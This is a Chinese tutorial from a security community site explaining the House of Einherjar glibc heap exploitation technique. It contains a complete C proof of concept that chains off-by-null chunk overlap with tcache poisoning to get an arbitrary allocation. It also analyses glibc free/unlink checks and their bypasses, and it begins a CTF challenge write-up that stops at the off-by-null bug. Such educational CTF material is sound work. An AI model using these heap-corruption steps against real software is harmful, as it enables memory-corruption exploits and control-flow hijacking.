# House of Einherjar堆利用技术解析与实战-先知社区

> **来源**: https://xz.aliyun.com/news/18817  
> **文章ID**: 18817

---

# house\_of\_einherjar攻击

## 介绍

`house of einherjar` 是一种堆利用技术，由 `Hiroki Matsukuma` 提出。该堆利用技术可以强制使得 `malloc` 返回一个几乎任意地址的 `chunk` 。其主要在于滥用 `free` 中的后向合并操作（合并低地址的 `chunk`），从而使得尽可能避免碎片化。

此外，需要注意的是，在一些特殊大小的堆块中，`off-by-one` 不仅可以修改下一个堆块的 `prev_size`，还可以修改下一个堆块的 `PREV_INUSE` 比特位。

## 攻击条件

* 可以修改下一个堆快的`prev_size`位和`PREV_INUSE` 比特位
* 可以分配大于等于`unsortedbin`的`chunk`

## 攻击过程

演示`poc`

```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <malloc.h>
#include <assert.h>

int main()
{
    /*
     * 这个 House of Einherjar 的变种由 Huascar Tejeda - @htejeda 修改，
     * 在开启 tcache 的 glibc-2.32 下仍然可用。
     * 
     * House of Einherjar 技术利用了一个 “单字节溢出 null 字节” 的漏洞，
     * 来控制 malloc() 返回的指针。
     * 它还需要一个堆地址泄漏（heap leak）。
     *
     * 在填满 tcache 链表（绕过与 fake chunk 合并的限制）之后，
     * 我们针对 unsorted bin（而不是 small bin），
     * 通过在堆上伪造一个 fake chunk 来实现攻击。
     * 
     * 注意：对于正常的 bin，这个限制不允许我们创建比该 arena 从系统中申请的内存更大的 chunk：
     *
     * https://sourceware.org/git/?p=glibc.git;a=commit;f=malloc/malloc.c;h=b90ddd08f6dd688e651df9ee89ca3a69ff88cd0c 
     */

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    printf("欢迎来到 House of Einherjar 2!
");
    printf("测试环境: Ubuntu 22.04 64bit (glibc-2.35).
");
    printf("该技术在你有一个 malloc 堆块的单字节溢出（并且能写入 0x00）时可用。
");

    printf("本示例通过制造 chunk 重叠来演示 House of Einherjar 攻击。
");
    printf("接着我们会利用 tcache poisoning 劫持控制流。
"
           "由于补丁 https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=a1a486d70ebcc47a686ff5846875eacad0940e41,
"
           "tcache poisoning 现在需要堆地址泄漏。
");

    // 准备目标地址
    // 由于 https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=a1a486d70ebcc47a686ff5846875eacad0940e41
    // 目标地址必须正确对齐
    intptr_t stack_var[0x10];
    intptr_t *target = NULL;

    // 选择一个正确对齐的目标地址
    for(int i=0; i<0x10; i++) {
        if(((long)&stack_var[i] & 0xf) == 0) {
            target = &stack_var[i];
            break;
        }
    }
    assert(target != NULL);
    printf("
我们希望 malloc() 返回的地址是 %p.
", (char *)target);

    printf("
申请一个 0x38 字节的堆块 'a'，用它来伪造一个 fake chunk。
");
    intptr_t *a = malloc(0x38);

    // 伪造一个 fake chunk
    printf("
我们在目标 chunk 之前伪造一个 fake chunk，并且需要知道它的地址。
");
    printf("为了通过 unlink 检查，我们设置 fwd 和 bck 指针指向自己。
");

    a[0] = 0;	// prev_size (没用)
    a[1] = 0x60; // size
    a[2] = (size_t) a; // fwd
    a[3] = (size_t) a; // bck

    printf("我们的 fake chunk 在 %p，看起来如下:
", a);
    printf("prev_size (未使用): %#lx
", a[0]);
    printf("size: %#lx
", a[1]);
    printf("fwd: %#lx
", a[2]);
    printf("bck: %#lx
", a[3]);

    printf("
再申请一个 0x28 字节的堆块 'b'。
"
           "稍后会通过溢出 'b' 的一个字节，修改 'c' 的元数据。
"
           "等 'b' 重叠后释放，就能用来发起 tcache poisoning。
");
    uint8_t *b = (uint8_t *) malloc(0x28);
    printf("b: %p
", b);

    int real_b_size = malloc_usable_size(b);
    printf("因为我们要溢出 b，所以要知道它的真实大小（对齐后的大小）：%#x
", real_b_size);

    /* 最好让 chunk 的 size 字段最低字节为 0x00。
     * 因为 chunk 大小包含了用户申请的大小 + 元数据对齐，
     * 所以选 0xf8 这种大小，得到的 size 字段最低字节正好为 0x00。 */
    printf("
申请一个 0xf8 字节的堆块 'c'。
");
    uint8_t *c = (uint8_t *) malloc(0xf8);
    printf("c: %p
", c);

    uint64_t* c_size_ptr = (uint64_t*)(c - 8);
    printf("
c.size: %#lx
", *c_size_ptr);
    printf("c.size 实际是 (0x100) | prev_inuse = 0x101
");

    printf("我们通过溢出 'b' 的一个字节，把 'c' 的 size 改掉（写 0x00）。
");
    // 漏洞点
    b[real_b_size] = 0;
    printf("修改后的 c.size: %#lx
", *c_size_ptr);

    printf("最好让 b 的大小是 0x100 的倍数，这样只会改 prev_inuse 位，不会改 b 的大小。
");

    // 在 b 结尾写入一个 fake prev_size
    printf("
在 'b' 的最后 %lu 字节写入一个假的 prev_size，"
           "这样它会与我们的 fake chunk 合并。
", sizeof(size_t));
    size_t fake_size = (size_t)((c - sizeof(size_t) * 2) - (uint8_t*) a);
    printf("fake prev_size = %p - %p = %#lx
", c - sizeof(size_t) * 2, a, fake_size);
    *(size_t*) &b[real_b_size-sizeof(size_t)] = fake_size;

    // 修改 fake chunk 的 size，与 c 的新 prev_size 一致
    printf("
确保 fake chunk 的 size 与 c 的新 prev_size 一样。
");
    a[1] = fake_size;
    printf("现在 fake chunk 的大小为 %#lx (b.size + fake_prev_size)
", a[1]);

    // 先填满 tcache，再 free 掉 c 让它合并 fake chunk
    printf("
填满 tcache。
");
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
        x[i] = malloc(0xf8);
    }

    printf("释放这些 chunk，填满 tcache 列表。
");
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++) {
        free(x[i]);
    }

    printf("现在释放 'c'，它会和 fake chunk 合并，因为 c 的 prev_inuse 已经被清掉。
");
    free(c);
    printf("fake chunk 的大小变为 %#lx (c.size + fake_prev_size)
", a[1]);

    printf("
现在再 malloc()，它会返回 fake chunk。
");
    intptr_t *d = malloc(0x158);
    printf("malloc(0x158) 返回 %p
", d);

    // tcache poisoning
    printf("补丁 https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f
"
           "要求我们多申请/释放一个填充 chunk 来绕过 fd 校验。
");
    uint8_t *pad = malloc(0x28);
    free(pad);

    printf("
现在释放 'b'，准备做 tcache poisoning。
");
    free(b);
    printf("tcache 链表现在是 [ %p -> %p ].
", b, pad);

    printf("我们通过 'd' 覆盖 b 的 fwd 指针。
");
    // 注意：需要堆地址泄漏才能算出 d 的地址
    // 但 House of Einherjar 本身也要求堆泄漏，所以可以直接用。
    d[0x30 / 8] = (long)target ^ ((long)&d[0x30/8] >> 12);

    // 取出 target
    printf("现在我们可以申请到 target 地址。
");
    malloc(0x28);
    intptr_t *e = malloc(0x28);
    printf("
新分配的 chunk 在 %p
", e);

    // 验证
    assert(e == target);
    printf("成功控制了 target（栈地址）！

");
}

```

堆空间申请，申请了三个利用堆块，`chunk1`进行了伪造，把`fd`和`bk`制作伪造为自身。利用`chunk2`进行溢出伪造`chunk3`的`prev_size`



然后把`tcachebins`填满，去`free chunk3`，效果如下，堆块进行了合并，造成了堆块重叠



接下来申请`unsortedbin`大小的空间，申请`chunk2`大小的空间，释放`chunk2`大小的两个堆块，后放入`chunk2`，为了绕过`fd`检查。然后通过申请到的`unsortedbin`进行修改`chunk2`的`fd`指针，可以进行任意地址申请



## 攻击原理

### free合法性校验

当去free一个堆块的时候，调用`glibc/malloc/malloc.c`中的`_int_free`函数，该函数前面会进行校验判断，优先考虑放入`tcachebins`，如果`tcachebins`满了，且大小符合`fashbin`，会考虑放入`fashbin`，最后是放入`unsortedbin`。此攻击手法主要分析放入`unsortedbin`的分支。

当进入`unsortedbin`分支的时候，首先经过下面的一些校验，通过校验才会成功释放

```
/* 判断要释放的块 p 是否就是 arena 的顶块（top chunk）。
   用户不可能拿到 top chunk 的指针来 free；出现即视为 double free/堆损坏。 */
if (__glibc_unlikely (p == av->top))
  malloc_printerr ("double free or corruption (top)");

/* 检查 nextchunk 是否越界到 arena 之外（仅在“连续堆”模式下）。
   对于 contiguous(av) 的 arena，(char*)nextchunk 不能超过
   av->top 的末尾地址 (char*)av->top + chunksize(av->top)。 */
if (__builtin_expect (contiguous (av)
                      && (char *) nextchunk
                         >= ((char *) av->top + chunksize (av->top)), 0))
  malloc_printerr ("double free or corruption (out)");

/* 检查 nextchunk 头部里的 prev_inuse 位。
   正常在我们调用 free(p) 之前，p 是“已使用”的，因此 nextchunk->prev_inuse 应为 1。
   若为 0，说明前块被标记为空闲（可能是 double free 或标志被篡改）。 */
if (__glibc_unlikely (!prev_inuse (nextchunk)))
  malloc_printerr ("double free or corruption (!prev)");

/* 取下一个物理块的“真实大小”（屏蔽低位标志位后的尺寸）。 */
nextsize = chunksize (nextchunk);

/* 下一个块的大小合法性检查：
   1) 不屏蔽标志位的原始 size（chunksize_nomask）小于等于块头大小（CHUNK_HDR_SZ）→ 太小，装不下头部，判坏；
   2) 屏蔽后的真实大小（nextsize）若大于等于该 arena 向系统申请的总内存（av->system_mem）→ 过大，判坏。 */
if (__builtin_expect (chunksize_nomask (nextchunk) <= CHUNK_HDR_SZ, 0)
    || __builtin_expect (nextsize >= av->system_mem, 0))
  malloc_printerr ("free(): invalid next size (normal)");
/* 通过检查后进行释放 */
free_perturb (chunk2mem(p), size - CHUNK_HDR_SZ);

```

### 向前合并校验

经过合法性检查之后下面进行`unlink`条件判断，首先进行向前合并检查。

* 根据`prev_inuse`判断，如果`prev_inuse`为`0`说明上一个`chunk`未在使用，通过`prevsize`更新指针，如果伪造`prevsize`大小就会造成指针指向我们伪造的地址，经过检查之后，进行向前合并操作，造成堆块重叠。

```
/* 若当前块 p 的“前块在用”标志为 0（说明前一个物理块是空闲的），
   则需要与前块进行向前合并（backward coalescing）。*/
if (!prev_inuse(p)) {
  /* 从当前块头部读取记录的前块大小（prev_size 字段）。*/
  prevsize = prev_size (p);
  /* 合并大小：当前块 size 加上前块 size。*/
  size += prevsize;
  /* 指针回退 prevsize 个字节，定位到“前一个物理块”的块头地址。*/
  p = chunk_at_offset(p, -((long) prevsize));
  /* 一致性检查：前块头里的 size 必须与我们读取到的 prevsize 匹配，
     否则认为堆元数据被破坏（常见于越界/伪造 size）。*/
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
  /* 将这个“前块”（此时是空闲块）从其所在 bin 的双向链表中摘除（unlink），
     为后续把两块合并成更大的空闲块做准备。
     这里会触发安全 unlink 检查（FD/BK 指针一致性等）。*/
  unlink_chunk (av, p);
}
```

原理图如下

伪造蓝色堆块和绿色堆块的`prevsize`，然后`free`绿色堆块



### 向后合并校验

如果不符合向前合并条件，就接着检查向后合并

* 如果下一个`nextchunk`不是`topchunk`，进入分支判断下一个`chunk`的是否在使用，如果空闲进行合并，非空闲仅把`p_inuse`位置0

```
if (nextchunk != av->top) {                     // 如果后继物理块不是 top chunk，进入常规处理

  /* 读取 nextchunk 的“inuse”状态。
     注意：一个块是否在用，是通过“其后一个块头部的 prev_inuse 位”来判断的。
     inuse_bit_at_offset(q, sz) ≈ 查看 chunk_at_offset(q, sz) 的 prev_inuse。
     这里传入 (nextchunk, nextsize)，即检查“nextchunk 的后一个块”记录的 prev_inuse，
     从而得知 nextchunk 本身是否在用。*/
  nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
  /* 若 nextchunk 也是空闲的，执行向前合并（forward coalescing）：
     先把 nextchunk 从其所在 bin 的双向链表中摘除（unlink），
     再把它的大小并入当前块的 size。*/
  if (!nextinuse) {
    unlink_chunk (av, nextchunk);
    size += nextsize;
  } else
    /* 否则（nextchunk 在用），不能合并。
       仅需把 nextchunk 头部里的 prev_inuse 清零，表示“当前块 p 已经空闲”，
       以便将来当 nextchunk 被 free 时，可以与 p 合并。*/
    clear_inuse_bit_at_offset(nextchunk, 0);
}
```

### unlink\_chunk合法性校验

```
unlink_chunk (mstate av, mchunkptr p)
{
  /* 一致性检查：当前块 p 的 size 必须等于“后继物理块”的 prev_size。
     若不相等，说明元数据被破坏（越界写/伪造 size 等）。 */
  if (chunksize (p) != prev_size (next_chunk (p)))
    malloc_printerr ("corrupted size vs. prev_size");

  /* 取出 bin 中的前向/后向指针（双向链表）。 */
  mchunkptr fd = p->fd;
  mchunkptr bk = p->bk;

  /* 双向链表完整性检查：
     - 正常应有 fd->bk == p 且 bk->fd == p
     - 任一不满足即链表被破坏（典型于 unsafe unlink/伪造指针）。 */
  if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    malloc_printerr ("corrupted double-linked list");

  /* 将 p 从（普通大小序的）bin 双向链表中摘除。 */
  fd->bk = bk;
  bk->fd = fd;
/* ============================================================================================================*/
  /* 若 p 属于 largebin（非 smallbin），且存在按“块大小”排序的次级链表指针，
     还需要从“size 有序环”里把 p 摘掉。smallbin 没有 nextsize 链。 */
  if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
    {
      /* 次级链表（按大小排序）的完整性检查：
         - 正常应有 p->fd_nextsize->bk_nextsize == p
         -        且 p->bk_nextsize->fd_nextsize == p */
      if (p->fd_nextsize->bk_nextsize != p
          || p->bk_nextsize->fd_nextsize != p)
        malloc_printerr ("corrupted double-linked list (not small)");

      /* 如果 p 被摘除后，其所属 bin 的表头 fd 没有配置次级链，
         则需要把 p 的次级链“移交/闭环”给 fd。 */
      if (fd->fd_nextsize == NULL)
        {
          /* 情况 A：p 自身构成一个单节点的 size 环（指向自己）。
             摘掉 p 后，将 fd 自己设置为单节点环。 */
          if (p->fd_nextsize == p)
            fd->fd_nextsize = fd->bk_nextsize = fd;
          else
            {
              /* 情况 B：p 的 size 环里有其他节点：
                 用 fd 替换 p 在次级环中的位置，维持有序环不破。 */
              fd->fd_nextsize = p->fd_nextsize;
              fd->bk_nextsize = p->bk_nextsize;
              p->fd_nextsize->bk_nextsize = fd;
              p->bk_nextsize->fd_nextsize = fd;
            }
        }
      else
        {
          /* 否则（fd 已有次级链），直接把 p 从 size 环里断开连接。 */
          p->fd_nextsize->bk_nextsize = p->bk_nextsize;
          p->bk_nextsize->fd_nextsize = p->fd_nextsize;
        }
    }
}

```

## 校验绕过

经过源码分析，我们可以利用的分支只有向前合并，总结出如下需要绕过的校验

* 要释放的`chunk`的`prev_inuse`位为`0`（通过堆溢出、off-by-null、off-by-one进行设置）
* 被合并的`chunk`的size必须和释放的`prev_size`相同（由于空间复用，可以编辑当前堆块，设置下一个堆块的`prev_size`）
* 被合并的`chunk`的`fd-bk`和`bk-fd`必须指向自己（通过设置`fd`和`bk`都为当前堆块的地址绕过）

## 湾区杯2025-digtal\_bomb

### 题目分析

`ida`反编译进行简单的函数、变量重命名，然后进入`welcome`函数，发现题目介绍是实现了一个你和电脑共同排除炸弹的功能

首先分析main函数。让你输入一个炸弹范围，然后通过伪随机生成一个炸弹数，并且炸弹数控制在你输入的范围内。然后进入一个循环，会通过`inputgGuessNum`函数让你输入一个数，然后对你输入的数通过`chunk1`函数进行校验



我们跟进函数`chunk1`，如果我们猜的数是炸弹数，就会爆炸`return 1`，如果我们没有猜到炸弹数，就会通过`update_boundary`进行更新边界然后当仅剩一个数的时候，且这个数是炸弹数的时候，就会进入`heapFunc`函数。



继续跟进`update_boundary`函数，是一个更新边界的函数，通过分析我们可以实习100绕过炸弹数，开始输入`499-500`，然后随机数就会随机到`499`，然后输入`500`，边界更新为`499-499`，完成炸弹数绕过



接着进入函数`heapFunc`，是一个经典的堆题样式。



首先跟进add函数，只允许创建`10`个堆块，且有大小限制在`0x10-0x800`，申请的堆块地址储存在`chunk_addr`，然后向堆块输入数据，并在数据末位进行`\x00`截断，这里就造成了`off-by-null`漏洞

